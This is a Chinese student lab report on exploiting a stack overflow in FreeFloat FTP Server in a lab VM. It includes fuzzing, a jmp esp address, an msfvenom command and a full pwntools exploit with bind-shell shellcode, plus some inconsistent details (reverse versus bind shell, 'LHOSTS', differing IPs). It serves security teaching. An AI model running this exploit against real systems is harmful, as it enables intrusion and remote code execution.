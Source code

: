 ```yaml
---
title: 实验八--栈溢出漏洞利用
category: 学习笔记
tags: [网络渗透测试技术、栈溢出]
published: 2025/04/23 11:53:14
permalink: /course/pxbe1psj/
---
```


## 实验目的

1、掌握软件栈溢出漏洞的原理和如何利用漏洞

## 实验任务

1、对winxp靶机中的FreeFloat FTP Sever进行溢出漏洞测试

2、编写漏洞渗透程序

3、使用Metasploit来生成Shellcode

## 实验步骤

## 分析漏洞

在xp靶机上开启FTPServer

![实验八_image_1](./images/202312071129688.png)

在kali上连接ftp，直接输入aaa/aaa即可进行登录，可以登陆成功，即该服务器并没有对用户进行限制

![实验八_image_2](./images/202312071129132.png)

利用python生成一百个'a'登录，报错了

![实验八_image_3](./images/202312071129977.png)wireshark抓包得知，只发送出去了78个a

![实验八_image_4](./images/202312071130651.png)同时发送了100个a也没令软件崩溃，所以改用其他方法

### 使用脚本测试

python发包测试

``` python
from pwn import *
p = remote("192.168.100.143", 21)
payload = 'A'*500
p.sendline(payload)
p.interactive()
```

![实验八_image_5](./images/202312071130617.png)
程序崩溃了
![实验八_image_6](./images/202312071130998.png)
此时eip指向了0x41414141，从发送的数据'A'的ascii码是0x41得知，USER输入点存在栈溢出漏洞
![实验八_image_7](./images/202312071130938.png)
进一步的验证分析就不进行了，网上有更详细的分析过程

## 漏洞利用

### 寻找jmp esp地址

![实验八_image_8](./images/202312071130653.png)

![实验八_image_9](./images/202312071130894.png)

![实验八_image_10](./images/202312071130878.png)

![实验八_image_11](./images/202312071130671.png)

![实验八_image_12](./images/202312071130922.png)

只有一个地址，那就用：77D4754A这个地址

### 生成shellcode

利用metasploit生成windows反弹shell的shellcode，排除坏数据’\x00\x0a\x0d’，以c语言格式输出，靶机IP：192.168.100.142

``` bash
msfvenom -p windows/shell_bind_tcp LHOSTS=192.168.100.143 LPORT=4444 -b '\x00\x0a\x0d' -f c
```

![实验八_image_13](./images/202312071130078.png)
编写exp，这里使用的是python3的语法，在运行脚本前还需要安装pwntools
\x90为nop指令，起着类似滑板的作用

``` python
from pwn import *
p = remote("192.168.100.143",21)
payload = b'A'*251
payload += p32(0x77D4754A)
payload += b'C'*8
payload += b'\x90'*20

shellcode = (
b"\xda\xcb\xd9\x74\x24\xf4\xb8\xcd\x8a\xb1\xec\x5a\x31\xc9"
b"\xb1\x53\x31\x42\x17\x83\xc2\x04\x03\x8f\x99\x53\x19\xf3"
b"\x76\x11\xe2\x0b\x87\x76\x6a\xee\xb6\xb6\x08\x7b\xe8\x06"
b"\x5a\x29\x05\xec\x0e\xd9\x9e\x80\x86\xee\x17\x2e\xf1\xc1"
b"\xa8\x03\xc1\x40\x2b\x5e\x16\xa2\x12\x91\x6b\xa3\x53\xcc"
b"\x86\xf1\x0c\x9a\x35\xe5\x39\xd6\x85\x8e\x72\xf6\x8d\x73"
b"\xc2\xf9\xbc\x22\x58\xa0\x1e\xc5\x8d\xd8\x16\xdd\xd2\xe5"
b"\xe1\x56\x20\x91\xf3\xbe\x78\x5a\x5f\xff\xb4\xa9\xa1\x38"
b"\x72\x52\xd4\x30\x80\xef\xef\x87\xfa\x2b\x65\x13\x5c\xbf"
b"\xdd\xff\x5c\x6c\xbb\x74\x52\xd9\xcf\xd2\x77\xdc\x1c\x69"
b"\x83\x55\xa3\xbd\x05\x2d\x80\x19\x4d\xf5\xa9\x38\x2b\x58"
b"\xd5\x5a\x94\x05\x73\x11\x39\x51\x0e\x78\x56\x96\x23\x82"
b"\xa6\xb0\x34\xf1\x94\x1f\xef\x9d\x94\xe8\x29\x5a\xda\xc2"
b"\x8e\xf4\x25\xed\xee\xdd\xe1\xb9\xbe\x75\xc3\xc1\x54\x85"
b"\xec\x17\xc0\x8d\x4b\xc8\xf7\x70\x2b\xb8\xb7\xda\xc4\xd2"
b"\x37\x05\xf4\xdc\x9d\x2e\x9d\x20\x1e\x41\x02\xac\xf8\x0b"
b"\xaa\xf8\x53\xa3\x08\xdf\x6b\x54\x72\x35\xc4\xf2\x3b\x5f"
b"\xd3\xfd\xbb\x75\x73\x69\x30\x9a\x47\x88\x47\xb7\xef\xdd"
b"\xd0\x4d\x7e\xac\x41\x51\xab\x46\xe1\xc0\x30\x96\x6c\xf9"
b"\xee\xc1\x39\xcf\xe6\x87\xd7\x76\x51\xb5\x25\xee\x9a\x7d"
b"\xf2\xd3\x25\x7c\x77\x6f\x02\x6e\x41\x70\x0e\xda\x1d\x27"
b"\xd8\xb4\xdb\x91\xaa\x6e\xb2\x4e\x65\xe6\x43\xbd\xb6\x70"
b"\x4c\xe8\x40\x9c\xfd\x45\x15\xa3\x32\x02\x91\xdc\x2e\xb2"
b"\x5e\x37\xeb\xc2\x14\x15\x5a\x4b\xf1\xcc\xde\x16\x02\x3b"
b"\x1c\x2f\x81\xc9\xdd\xd4\x99\xb8\xd8\x91\x1d\x51\x91\x8a"
b"\xcb\x55\x06\xaa\xd9")

payload += shellcode
p.sendline(payload)
p.close()
```

运行脚本，并使用nc进行连接即可成功获得shell
![实验八_image_14](./images/202312071130455.png)

## 参考

- https://rj45mp.github.io/Freefloat-FTP-Server1-0%E6%BA%A2%E5%87%BA%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/

- https://bbs.kanxue.com/thread-266641.htm